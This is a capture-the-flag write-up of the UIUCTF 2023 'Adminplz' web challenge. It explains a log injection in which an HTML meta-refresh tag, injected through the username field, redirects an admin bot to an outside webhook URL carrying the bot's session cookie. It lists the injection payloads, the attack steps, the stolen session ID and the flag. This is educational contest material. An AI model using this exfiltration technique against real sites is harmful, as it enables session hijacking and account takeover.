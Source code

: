 # Adminplz (UIUCTF 2023)

**Challenge category**: Web<br>
**Challenge description**: "your daily dose of ☕"<br>
**Challenge points**: 322<br>
**CTF date**: sab, 01 Lug. 2023, 00:00 UTC — lun, 03 Lug. 2023, 00:00 UTC<br>

## Context

This challenge involves a Log Injection that leads to cookie exfiltration.

## Exploring the challenge

![1](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/5ab67534-cd47-4328-bd60-73ab33e3e6d0)

![4](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/d673a902-6b96-49e5-97e5-8c8689e861cd)


![2](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/be43b485-a783-4e69-90d9-553995228101)

The only thing we can do on this page is login and submit a URL to the admin bot. If we access the <code>/admin</code> endpoint, we will get an error:

![3](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/e5169f48-6c01-4e8a-9ee9-ec89a89ce823)

Let's have a look at the Java code.
```javascript
const { chromium } = require('playwright-chromium');
const URL = process.argv[2];

(async () => {
    console.log('running admin bot...')
    const browser = await chromium.launch()
    const context = await browser.newContext()
    context.setDefaultTimeout(2000)
    const page = await context.newPage()
    await page.goto('http://127.0.0.1:8080/')

    // login
    await page.type('input[name=username]', 'admin')
    await page.type('input[name=password]', process.env.ADMIN_PASSWORD)
    await Promise.all([
      page.click('input[type=submit]'),
      page.waitForNavigation({
        waitUntil: 'networkidle0',
      }),
    ]);
    // visit url
    console.log("visiting target...");
    await page.goto(URL);
    await page.waitForTimeout(900000); // 15 min
    await browser.close()
    console.log('Success!')
})();
```
For the bot, the server is on 127.0.0.1 on port 8080. It logs on the server and then visits the submitted URL.
```java
@Component
public class CSP implements Filter {
    @Override
    public void doFilter(ServletRequest request,
                         ServletResponse response,
                         FilterChain chain) throws ServletException, IOException {
        ((HttpServletResponse) response).addHeader("Content-Security-Policy", "default-src 'none';");
        chain.doFilter(request, response);
    }
}

```
CSP is set to <code>default-src 'none'</code>. A very strict policy that prevents any external resources from being loaded and any scripts from running, so no XSS.
```java
@PostMapping(path = "/login", consumes = {MediaType.APPLICATION_FORM_URLENCODED_VALUE})
    public String login(HttpSession session, User user) {
        if (user.getUsername().equals("admin") && !user.getPassword().equals(ADMIN_PASSWORD)) {
            return "not allowed";
        }
        session.setAttribute("user", user);
        return "logged in";
    }
```
We can't log in as admin since we don't know the password, but we can log in as any user, our username will be set accordingly (password isn't checked).
```java
@GetMapping("/admin")
    public Resource admin(HttpServletRequest req, HttpSession session, @RequestParam String view) {
        if (isLoggedIn(session) && view.contains("flag")) {
            logger.warn("user {} [{}] attempted to access restricted view", ((User) session.getAttribute("user")).getUsername(), session.getId());
        }
        return app.getResource(isAdmin(req, session) ? view : "error.html");
    }
```
Here, two things: our username could be written inside a log (<code>/var/log/adminplz/latest.log</code>) without going through any sanitization process and
a resource specified by a user-controllable GET parameter (<code>view</code>) is returned to the admin (if they access the endpoint).
The <code>accessResource()</code> method accepts filenames and URLs (of any protocol).<br>
There is no possibility for an XSS, nor possibility to inject anything on any page. The only file we can inject something into, if we are registered and
the <code>view</code> parameter contains the substring "flag", it is <code>/var/log/adminplz/latest.log</code>. This file can be viewed as HTML by the bot's browser if required (via the <code>/admin</code> endpoint and the <code>view</code> parameter).
Sending a url like <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> will cause the admin bot to view the log file as an HTML page.
But what can we do? We cannot activate XSS or load any external resources. Therefore, it is impossible to get the content of <code>/flag.html</code>. Can we steal cookies even without XSS? Yes!
If we look at the code above (the admin one), we can see that not only the username is registered, but also the session ID. If the admin visits a url
such as <code>http://127.0.0.1:8080/admin?view=file:///flag.html</code>, its session id (authentication cookie) is written to the log. If we can exfiltrate this,
we can authenticate to the server as admin. There is only text in the log, but we can insert HTML through the username.
How can we exfiltrate the admin cookie with a very strict CSP policy? With a <code>meta</code> tag that redirects the client to a URL that
incorporates part of the content of the log (admin cookies included) inside it:
```html
.... <html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=

...Log content...

'></head> ....
```
This HTML code could redirect the client to the specified URL, including in the <code>exf</code> parameter all the content written before the single quote. If the server logs an admin event within this content, before injecting the <code>'>\</head\></code> part, we can exfiltrate the admin authentication cookie.

## Attack
Six steps:
+ Login with username <code><html><head><meta http-equiv="refresh" content='0; url=https://webhook.site/a2e16dd2-9690-4246-8c58-abf303c42a4b?exf=</code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code> (it is important that the <code>view</code> parameter contains a valid path (existing file), otherwise an error will be raised and the content of the log will be restored, erasing our previous input).
+ Submit the url <code>https://127.0.0.1:8080/admin?view=file:///flag.html</code> to the admin bot.
+ Login with username <code><html>'>\</head\></code>.
+ Visit <code>https://instance_server/admin?view=file:///flag.html</code>.
+ Submit the url <code>http://127.0.0.1:8080/admin?view=file:///var/log/adminplz/latest.log</code> to the admin bot.

After performing these steps, our server will receive a GET request with all exfiltrated content within a query parameter.

![adminplz_cookie](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/de9a0540-c05e-4747-9917-06997257a46a)


We got admin's session ID (<code>36D142A1763851F1DE47DEB881FC2A3A</code>)!
We now need to use this cookie when accessing the <code>/admin</code> endpoint. To access the flag file we need to set the <code>view</code>
parameter to <code>file:///flag.html.</code>, then: <code>https://instance_server/admin?view=file:///flag.html</code>. By visiting this link we will get the flag!

![adminplz_flag](https://github.com/H31s3n-b3rg/CTF_Write-ups/assets/66698256/888aa3a9-0937-4f36-b173-8a7777136c59)

Flag is <code>uiuctf{adminplz_c4n_1_h4v3_s0M3_co0k13s?_b5eab1cc61c26f07e63af7f8}</code>.

